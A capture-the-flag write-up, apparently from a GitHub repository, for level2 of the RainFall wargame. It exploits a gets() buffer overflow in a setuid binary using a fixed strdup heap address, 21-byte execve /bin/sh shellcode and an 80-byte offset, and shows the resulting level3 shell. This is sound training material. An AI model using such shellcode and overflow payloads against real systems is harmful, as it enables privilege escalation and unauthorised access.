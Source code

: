```sh
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
level2@RainFall:~$ ./level2 
42
42
level2@RainFall:~$ ./level2 42
42
42
```
There is one excutable file **level2**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret    
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
...
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
...
```
```p()``` use the ```gets()``` which has vulnerability buffer overflow, but the ```p()``` function checks the **EBP** register address just after function ```gets()```. this mean that function checks ```gets()``` return value came from normal memory area or buffer memory area. \
So we have to jump the compare logic.

```sh
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)                     = 0xbffff6fc
puts("")                                                          = 1
strdup("")                                                        = 0x0804a008
```
We can find ```strdup()``` function always return in the address 0x0804a008, we can put this value in EIP with buffer overflow.
```sh
level2@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a"' > /tmp/exploit2
...
(gdb) r < /tmp/exploit2
Starting program: /home/user/level2/level2 < /tmp/exploit2
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0a6ac72ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a

Program received signal SIGSEGV, Segmentation fault.
0x37636136 in ?? ()
```
```sh
$> python3 level2/Ressources/helper.py
Enter the hex value to find (e.g., 0x63613563): 0x37636136
Little Endian ASCII representation: '6ac7'
'6ac7' found at offset: 80
```
With our helper.py, we can find overflow is at offset 80. \
After that, we save some shell code for execution shell, this is the [ref](https://shell-storm.org/shellcode/files/shellcode-575.html) of the shell code. \
This shell code is 21 bytes, overflow offset is 80. \
Then:
```
21 bytes(shell code) + 59 bytes(something) + 4 bytes(return address)
```
So when ```p()``` function finish, normally it returns to main function, but we did buffer overflow, so now return address is somewhere in the heap(```strdup()```'s return address). And in the heap memory, there is our shell code to execute shell.
```sh
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab" + "\x08\xa0\x04\x08"' > /tmp/exploit2
level2@RainFall:~$ cat /tmp/exploit2 - | ./level2
j
 X�Rh//shh/bin��1�̀aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab35ab6ab7ab8a�
whoami
level3
cat /home/user/level3/.pass
(hidden)
```
level2 passed!
